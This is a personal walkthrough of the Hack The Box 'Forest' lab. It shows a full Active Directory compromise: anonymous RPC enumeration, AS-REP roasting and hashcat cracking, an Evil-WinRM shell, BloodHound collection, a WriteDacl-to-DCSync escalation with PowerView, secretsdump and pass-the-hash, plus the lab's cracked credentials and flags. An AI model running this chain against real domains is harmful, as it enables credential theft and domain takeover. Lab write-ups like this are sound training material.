**Start 10:25 04-08-2024**

---

```
10.10.10.161
```

## Nmap recon
```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV -Pn -oA tcp -p- -T4 -vvvv --reason 10.10.10.161

PORT      STATE SERVICE      REASON  VERSION
88/tcp    open  kerberos-sec syn-ack Microsoft Windows Kerberos (server time: 2024-08-04 08:34:42Z)
135/tcp   open  msrpc        syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap         syn-ack Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds syn-ack Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp   open  kpasswd5?    syn-ack
593/tcp   open  ncacn_http   syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped   syn-ack
3268/tcp  open  ldap         syn-ack Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped   syn-ack
5985/tcp  open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf       syn-ack .NET Message Framing
47001/tcp open  http         syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc        syn-ack Microsoft Windows RPC
49665/tcp open  msrpc        syn-ack Microsoft Windows RPC
49666/tcp open  msrpc        syn-ack Microsoft Windows RPC
49668/tcp open  msrpc        syn-ack Microsoft Windows RPC
49671/tcp open  msrpc        syn-ack Microsoft Windows RPC
49676/tcp open  ncacn_http   syn-ack Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc        syn-ack Microsoft Windows RPC
49682/tcp open  msrpc        syn-ack Microsoft Windows RPC
49704/tcp open  msrpc        syn-ack Microsoft Windows RPC
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: FOREST
|   NetBIOS computer name: FOREST\x00
|   Domain name: htb.local
|   Forest name: htb.local
|   FQDN: FOREST.htb.local
|_  System time: 2024-08-04T01:35:33-07:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
|_clock-skew: mean: 2h27m06s, deviation: 4h02m31s, median: 7m05s
| smb2-time: 
|   date: 2024-08-04T08:35:31
|_  start_date: 2024-08-04T08:31:16
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 32753/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 19027/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 44587/udp): CLEAN (Timeout)
|   Check 4 (port 22088/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```

Through our `NMAP scan` we can find out the answer to the first task:

>Task 1: For which domain is this machine a Domain Controller? 
>A: `htb.local`

### 389/TCP -LDAP

So what does `LDAP` stand for and why is it significant to us? 

```
Lightweight Directory Access Protocol

This is an open, industry standard, application protocol for accessing and maintaining distributed directory information services over an IP. Directory services play an important role in developing intranet and Internet applications by allowing the sharing of information about users, systems, networks, services and applications through the network.

A common use of LDAP is a to provide a central place to store usernames and passwords. This allows many different applications and services to connect to LDAP servers to validate users.

-Wikipedia
```

This means that we can exploit the `LDAP` server in order to steal credentials and/or enumerate the network further.

### rpcclient
We can try and `connect to LDAP anonymously` using the following command:

```bash
rpcclient -N -U '' 10.10.10.161
```

This seems to work which means that `anonymous login is enabled`.

>Task 2: Which of the following services allows for anonymous authentication and can provide us with valuable information about the machine? FTP, LDAP, SMB, WinRM
>A: `LDAP`

Within the `rpcclient` we can start to enumerate the `LDAP server` in order to gain further info.
We want to enumerate the `users and the groups` on the server first and then work from there.
For the following and many other commands just type `help`.

Enumerate the users with:
```bash
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[$331000-VK4ADACQNUCA] rid:[0x463]
user:[SM_2c8eef0a09b545acb] rid:[0x464]
user:[SM_ca8c2ed5bdab4dc9b] rid:[0x465]
user:[SM_75a538d3025e4db9a] rid:[0x466]
user:[SM_681f53d4942840e18] rid:[0x467]
user:[SM_1b41c9286325456bb] rid:[0x468]
user:[SM_9b69f1b9d2cc45549] rid:[0x469]
user:[SM_7c96b981967141ebb] rid:[0x46a]
user:[SM_c75ee099d0a64c91b] rid:[0x46b]
user:[SM_1ffab36a2f5f479cb] rid:[0x46c]
user:[HealthMailboxc3d7722] rid:[0x46e]
user:[HealthMailboxfc9daad] rid:[0x46f]
user:[HealthMailboxc0a90c9] rid:[0x470]
user:[HealthMailbox670628e] rid:[0x471]
user:[HealthMailbox968e74d] rid:[0x472]
user:[HealthMailbox6ded678] rid:[0x473]
user:[HealthMailbox83d6781] rid:[0x474]
user:[HealthMailboxfd87238] rid:[0x475]
user:[HealthMailboxb01ac64] rid:[0x476]
user:[HealthMailbox7108a4e] rid:[0x477]
user:[HealthMailbox0659cc1] rid:[0x478]
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

And afterwards we enumerate the groups:
```bash
rpcclient $> enumdomgroups
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Domain Controllers] rid:[0x204]
group:[Schema Admins] rid:[0x206]
group:[Enterprise Admins] rid:[0x207]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Read-only Domain Controllers] rid:[0x209]
group:[Cloneable Domain Controllers] rid:[0x20a]
group:[Protected Users] rid:[0x20d]
group:[Key Admins] rid:[0x20e]
group:[Enterprise Key Admins] rid:[0x20f]
group:[DnsUpdateProxy] rid:[0x44e]
group:[Organization Management] rid:[0x450]
group:[Recipient Management] rid:[0x451]
group:[View-Only Organization Management] rid:[0x452]
group:[Public Folder Management] rid:[0x453]
group:[UM Management] rid:[0x454]
group:[Help Desk] rid:[0x455]
group:[Records Management] rid:[0x456]
group:[Discovery Management] rid:[0x457]
group:[Server Management] rid:[0x458]
group:[Delegated Setup] rid:[0x459]
group:[Hygiene Management] rid:[0x45a]
group:[Compliance Management] rid:[0x45b]
group:[Security Reader] rid:[0x45c]
group:[Security Administrator] rid:[0x45d]
group:[Exchange Servers] rid:[0x45e]
group:[Exchange Trusted Subsystem] rid:[0x45f]
group:[Managed Availability Servers] rid:[0x460]
group:[Exchange Windows Permissions] rid:[0x461]
group:[ExchangeLegacyInterop] rid:[0x462]
group:[$D31000-NSEL5BRJ63V7] rid:[0x46d]
group:[Service Accounts] rid:[0x47c]
group:[Privileged IT Accounts] rid:[0x47d]
group:[test] rid:[0x13ed]
```


We can then `queryuser` any user or group to find out even more:

```bash
rpcclient $> queryuser 0x1f4
User Name   :   Administrator
Full Name   :   Administrator
Home Drive  :
Dir Drive   :
Profile Path:
Logon Script:
Description :   Built-in account for administering the computer/domain
Workstations:
Comment     :
Remote Dial :
Logon Time               :      Sun, 04 Aug 2024 09:32:10 IST
Logoff Time              :      Thu, 01 Jan 1970 01:00:00 IST
Kickoff Time             :      Thu, 01 Jan 1970 01:00:00 IST
Password last set Time   :      Tue, 31 Aug 2021 01:51:59 IST
Password can change Time :      Wed, 01 Sep 2021 01:51:59 IST
Password must change Time:      Thu, 14 Sep 30828 03:48:05 IST
unknown_2[0..31]...
user_rid :      0x1f4
group_rid:      0x201
acb_info :      0x00000010
fields_present: 0x00ffffff
logon_divs:     168
bad_password_count:     0x00000000
logon_count:    0x0000007f
padding1[0..7]...
logon_hrs[0..21]...
```

And the groups that look most interesting to us:

```bash
rpcclient $> querygroup 0x200
Group Name:     Domain Admins
Description:    Designated administrators of the domain
Group Attribute:7
Num Members:1

rpcclient $> querygroup 0x201
Group Name:     Domain Users
Description:    All domain users
Group Attribute:7
Num Members:30
```

Ultimately we now want to make a file containing all users and try to log in using a tool. We want to look for an account that does not have `Kerberos preauthentication enabled`.

>For more info on [Kerberos](https://learn.microsoft.com/en-us/windows-server/security/kerberos/kerberos-authentication-overview).

### Users.txt
From our user enumeration we've found a bunch of names that we can use for our `.txt` file to try and login. 



Now we can use a script called `GetNPUsers.py` from the `impacket python` library. It should be preinstalled within Kali already, you can find it using the following command:



I then execute the following:

```bash
┌──(kali㉿kali)-[~]
└─$ impacket-GetNPUsers -no-pass -dc-ip 10.10.10.161 htb/ -usersfile users.txt
```

And we get this output:

```bash
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User sebastien doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User lucinda doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-alfresco@HTB.LOCAL:fc029696361ed3c896feae7af51d6a62$94fd8ec77c598d38d4a520b1fd4a32739e40ecf753404d630132ad428b788866a307d4f215df63c00ea44265cc7c61dff4e99db1f35b9da49f4ccc1a43abcba6d04562355f937423481695f67ad7eef716bfbb45a615b886f90b7f1febe60b20acc53ec1e13cf4691b6758b04e9232c1d88bc5892827da3ab3fde10926db10878772b1c7fea6068a12bb7369981a6ec4cebd905ab75bdcc39cde047571b528a4b84212ebf512e3ced997f6eb5add0d0831f4074c477f968cfc43957d99440b202683a24dbe479f0d1ede1d40d7627c4a0cd49eff40cbed8bd240c88a30d1049eb1deeab322a3
[-] User andy doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User mark doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User santi doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] invalid principal syntax
```

So from this output we can now take the hash obtained from `svc-alfresco` and crack it using `hashcat`.

>Task 3: Which user has Kerberos Pre-Authentication disabled?
>A: svc-alfresco


## hashcat

To crack the hash we need to put the hash into a file called `afresco.kerb` first, and then crack it:

```bash
┌──(kali㉿kali)-[~]
└─$ echo -e '$krb5asrep$23$svc-alfresco@HTB.LOCAL:fc029696361ed3c896feae7af51d6a62$94fd8ec77c598d38d4a520b1fd4a32739e40ecf753404d630132ad428b788866a307d4f215df63c00ea44265cc7c61dff4e99db1f35b9da49f4ccc1a43abcba6d04562355f937423481695f67ad7eef716bfbb45a615b886f90b7f1febe60b20acc53ec1e13cf4691b6758b04e9232c1d88bc5892827da3ab3fde10926db10878772b1c7fea6068a12bb7369981a6ec4cebd905ab75bdcc39cde047571b528a4b84212ebf512e3ced997f6eb5add0d0831f4074c477f968cfc43957d99440b202683a24dbe479f0d1ede1d40d7627c4a0cd49eff40cbed8bd240c88a30d1049eb1deeab322a3' > hash.asreproast
```

```bash
hashcat -m 18200 hash.asreproast /usr/share/wordlists/rockyou.txt.gz
```

And accordingly we get the following cracked hash:



```
s3rvice
```

>Task 4: What is the password of the user svc-alfresco?
>A: s3rvice

## Evil-WinRM
We can now try and log in using these credentials using `evilwin-rm`:



And as you can see we successfully got a remote shell.
Now we can get to getting those flags.

>Task 5: To what port can we connect with these creds to get an interactive shell?
>A: 5985

### user.txt
Getting this flag is easy as always:



```
ccb836c97dc09c841a59a9f88492eb3c
```

Now onto privilege escalation and capturing the `root.txt` flag.

## BloodHound
We now want to enumerate the machine further using `SharpHound` which is a script included in the `Bloodhound` tool which you can find [here](https://github.com/BloodHoundAD/BloodHound).

After I downloaded the tool I proceeded to upload it through my `Evil-WinRM` interactive shell to the machine using the following:

```PowerShell
upload /home/kali/Bloodhound/Collectors/SharpHound.ps1
```

In the `\local\temp` directory I have now the copied file which I can use to enumerate the server further:



Afterwards you want to issue the following commands:

```PowerShell
powershell -ep bypass # Launches a new instance of powershell, to allow new                              scripts to run
Import-Module .\Sharphound.ps1
Invoke-BloodHound -CollectionMethod All -OutputDirectory C:\Users\svc-alfresco\Documents\ -OutputPrefix "forestEnum"
```

When that is done you can find the results in the above mentioned folder:



Just as we `uploaded` the executable, we can now `download` the `.zip file` using:

```PowerShell
download C:\Users\svc-alfresco\Documents\forestEnum_20240804034150_BloodHound.zip
```





Now that the zip file is on our local machine again we can get to analysing the `.zip folder`.
To do this we'll have to start 2 services namely `neo4j and bloodhound`.



and just type the `bloodhound` command. You'll be greeted with the following:



You'll have to change the default credentials if you're using it for the first time through `http://localhost:7474`.

Afterwards you can login with the newly set credentials and click `Upload Data` in the top right corner, after which you'll have to select the file we just made during the enumeration:



Then you'll want to click the top left corner and click the `Find Shortest Paths to Domain Admins` button.



After which we should see the following graph:



We as `svc-alfresco` are a member of the so called `SERVICE ACCOUNTS` group, which in turn is part of the `PRIVILEGED IT ACCOUNTS` group, which is a member of `Account Operators`. This group is a member of the `EXCHANGE WINDOWS PERMISSIONS` which has `WriteDacl permissions on HTB.LOCAL`.

> For more info on Active Directory methodology and abuse, check [this blog](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse).

--- 

>Task 7: Which group has WriteDACL permissions over the HTB.LOCAL domain? Give the group name without the `@htb.local`.
>A: EXCHANGE WINDOWS PERMISSIONS


Since we have the so called `WriteDacl` permissions we can abuse this privilege and grant ourselves `DCSync` rights on the Domain.

To do this we simply need to create a new user `hacked` and put him into the `EXCHANGE WINDOWS PERMISSIONS` group.

```PowerShell
net user pwned pwned123 /add /domain
net group "Exchange Windows Permissions" /add pwned
```

With the next step I had a bit of trouble and had to use external help. Basically we need to import the `PowerView.ps1` module in order to execute the following commands and thus will have to:

```PowerShell
Import-Module .\PowerView.ps1
$pass = convertto-securestring 'pwned123' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential ('HTB\pwned', $pass)
Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity pwned -Rights DCSync
```

And accordingly we'll have to dump the secrets:

```bash
sudo python secretsdump.py htb.local/pwned:'pwned123'@10.10.10.161
# Do not forget to add sudo or it will fail!!!
```

## Privilege Escalation



Now we finally got the `Administrator password hash`, we can log in using a `pass-the-hash attack`. It seems like a salted hash, so I've tried the first part (before the `:` and after).

```
hash:
aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
```

The second part seems to be the correct hash we need to login.



### root.txt

And thus finally we have got `Admin privileges`. Now we just need to find the `root.txt` flag in the `Desktop directory`.



```
4789327d3dcb4a57776a1321a511b62f
```


---
**Finished 17:30 04/08**

:::summary
This box definitely was NOT easy, first Active Directory box I've done, and used a lot of help online since I was really struggling with it.
:::

[^Links]: [[Hack The Box]] [[OSCP Prep]] 
